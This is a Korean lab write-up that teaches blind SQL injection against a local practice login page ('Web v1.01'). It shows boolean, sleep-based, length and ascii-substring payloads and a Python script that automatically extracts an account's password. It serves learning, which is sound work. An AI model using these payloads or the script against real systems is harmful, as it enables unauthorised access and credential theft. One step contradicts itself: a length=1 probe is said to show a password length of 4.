### Blind SQL Injection with Web v1.01
- 쿼리 결과로 나오는 참, 거짓 정보를 통해 SQL Injection 공격을 수행한다.
- 참, 거짓 정보의 결과가 어떤식으로든 서버가 응답하는 정보가 있어야 한다.
- 어떤 사용자가 존재하는가? 이 사용자는 존재하는가? 패스워드 문자열의 첫 번째 값은 무엇인가? 같은 질문을 던지는 것이다.
---

<p align ="center"> </p>

- Web v1.01의 로그인 페이지 화면이며 해당 웹페이지의 관리자인 계정인 admin 계정으로 로그인을 시도한다.
- 로그인을 실패 했다는 정보밖에 알 수 없다. (아래 SQL은 값은 정확하게 입력 되었는지 확인 하기 위해 임의로 추가 함)

---

<p align ="center"> </p>

- `'`를 입력하여도 SQL 문법 오류를 발생시키는 오류가 발생하지 않는 것을 보면 에러가 발생하지 않도록 구현 된 것을 알 수 있다.
---

<p align ="center"> </p>

- 'admin'#'을 작성하여 인젝션을 시도했다. No Hack! 텍스트가 보이며, SQL 인젝션에 대한 경고 문구를 출력한다.
- 여기서 알아야 할 정보는 admin'# 구문은 참이므로 SQL 쿼리문이 정상 작동하고 그에 대한 결과값을 서버가 응답해주는 것이다.
- 하지만 이 정보만으로는 admin 계정을 인증시키지는 못한다. 어떤 방법이 있을까?
- **여기서는 No Hack! 이라는 정직한 텍스트로 SQL 쿼리문이 정상 작동한다는 정보를 주고 있지만, 다른 곳은 쉽지 않을 것이므로 이러한 정보들을 놓치지 않도록 많은 경험을 쌓아야할 것으로 보인다.**
---

### SQL SLEEP 함수

- 어떤 웹사이트는 위 사이트처럼 SQL 쿼리에 대한 결과값을 제공하지 않을 수도 있다. 아래와 같은 경우다.

<p align ="center"> </p>

- SQL 쿼리가 결과 값에 대한 어떠한 정보도 제공하지 않는다.
- 이러한 상황에서는 SQL의 SLEEP 함수를 사용할 수 있다.
- SLEEP 함수는 쿼리를 지연시키는 함수다.

<p align ="center"> </p>

- 쿼리문을 살펴보면 admin' and sleep(5) # 으로 # 앞에 문자는 참이 되며, # 이하의 구문은 모두 주석처리가 되고 결과적으로 참인 결과 값을 가지면서 sleep(5) 함수가 실행된다.
- 웹 브라우저의 개발자 도구로 결과 값을 확인해보면 sleep(5) 함수가 실행되면서 쿼리문의 결과가 5초 늦게 응답 될 것이고 자동적으로 HTTP 응답시간 또한 5초 정도 늦어질 것이기에 개발자 도구의 결과값이 5초로 나와있는 것을 확인 할 수 있다.

<p align ="center"> </p>

- 임의로 adx1' and sleep(5) # 을 입력하면 반대로 adx1이라는 계정은 없으므로 거짓이 되면서 sleep(5) 함수는 실행되지 않게 되고 응답시간이 빠르다는 것을 알 수 있다.
- 이러한 정보들을 이용하여 사용자의 계정이 존재하는가? 등을 파악할 수 있다.

---

### SQL LENGTH 함수

- 문자열 길이를 출력하는 함수로 위와 같은 정보들을 확보했다면, LENGTH 함수를 이용하여 해당하는 값의 길이 또한 알 수 있다. 패스워드의 길이를 알아보는 것이 가장 적합한 것으로 보인다. (해당 데이터베이스의 패스워드 컬럼을 알고있다는 가정)

<p align ="center"> </p>

- SQL admin' and length(user_password) = 1 # 입력하면 역시나 거짓 결과로 나온다. 하지만 SQL 구문은 정상 작동하고 있는 것을 알고 있기 때문에 No Hack! 이라는 텍스트가 나온다면 admin 계정의 패스워드 길이의 결과를 알 수 있다.

<p align ="center"> </p>

- 수를 하나 씩 올리다 보면 결국 값이 나온다. SQL admin' and length(user_password) = 1 # 이 SQL에서 NO Hack 값이 나왔으므로 패스워드 길이는 4라는 것을 추측할 수 있으며, 이 정보를 이용해 다른 함수를 통해서 패스워드 까지 추출할 수 있을 것이다.

---

### SQL SUBSTRING 함수

- 문자 데이터 일부를 추출한다.
```
SUBSTRING(str, pos, len)
SUBSTR(str, pos, len)
SUBSTRING('ABCD',1,2) == AB
SUBSTR('ABCD',1,2) == AB
SUBSTR('ABCDE',3,1) == C
SUBSTR('ABCDE',3,2) == CD
```
---
### SQL ASCII 함수
- 문자를 ASCII 코드로 변환한다.

---
- 패스워드 길이를 알아냈다면, SUBSTRING 함수와 ASCII 함수를 사용하여 패스워드를 추출할 수 있다.

```
SELECT ASCII(substring("ABC",1,1)) = 65
```


- 함수 특성을 이용하여 문자 하나씩 추출하여 추출된 해당 문자의 아스키코드 값과 임의로 입력한 아스키코드 값을 비교해서 참이 되는 과정을 반복한다면, 그 결과값이 패스워드가 될 확률이 높다.

<p align ="center"> </p>

- admin' and ascii(substring(user_password,1,1)) = 55#

<p align ="center"> </p>

- admin' and ascii(substring(user_password,1,1)) = 65#
- 추출한 첫번 째 문자를 아스키 코드 55 ~ 65 까지 임의로 대입 후 결과 값이다. 65까지 입력 했을 때 No Hack! 텍스트가 출력된 것을 보니 admin의 패스워드는 첫번 째 문자는 'A'라는 것을 알 수 있다.

---

### Python tools

- 이러한 방법으로 하나하나 임의로 데이터를 대입하여 패스워드를 추출할 수 있지만 패스워드가 조금 더 길어지기라도 한다면 그것도 노동일 것이다.
- 파이썬을 이용하여 자동화 툴을 구현했다. 해당 사이트에 맞춰 제작한 것이기 때문에 해당하는 계정만 입력 하면 자동으로 패스워드 길이와 패스워드 값을 출력한다.

```py
import requests
import os
url = "http://localhost:8080/logincheck.php"

response = requests.get(url)

if response.status_code == 200:
    print(url + " 연결 성공")


username = input("UserID : ")

i=1
password_len = 0
while True:
    url_len = url + "?user_id="+ username + "' and length(user_password)=" + str(i) + "%23"
    print(url_len)
    req = requests.get(url_len)
    if -1 != req.text.find("No Hack!"):
        print("Success!")
        password_len = i
        break
    else :
        print("Fail!")
        i+=1

print("=" * 100)

password = ''
for i in range(1, password_len+1):
    for j in range(33, 127):
        url_password = url + "?user_id=" + username + "' and ascii(substring(user_password," + str(i) + ", 1))=" + str(j) + "%23"
        print(url_password)
        req = requests.get(url_password)
        if -1 != req.text.find("No Hack!"):
            print("Success!")
            print(chr(j))
            password += chr(j)
        else:
            print("Fail!")

print("Password Length →",password_len)
print("Password → " + password)
os.system('pause')
```

<p align ="center"> </p>

- 실행 전 해당 웹사이트 계정 입력

<p align ="center"> </p>

- 패스워드 추출 결과

---

- 패스워드 A2B1 입력 결과

<p align ="center"> </p>


    


    


